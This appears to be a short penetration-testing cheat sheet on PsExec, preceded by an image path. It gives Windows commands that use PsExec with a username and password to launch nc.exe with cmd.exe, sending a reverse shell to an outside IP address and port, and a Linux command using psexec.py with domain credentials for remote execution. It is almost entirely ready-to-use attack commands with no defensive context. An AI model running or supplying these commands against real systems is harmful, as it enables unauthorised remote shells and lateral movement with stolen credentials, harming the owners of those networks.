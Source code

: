# PsExec

## Windows:

Connect to a remote machine using known credentials or hashes:

```bash
#32 bits:
PsExec.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe

#64 bits:
PsExec64.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe
```

## Linux

```bash
psexec.py $DOMAIN/$USER:$PASSWORD@$IPADDRESS
```
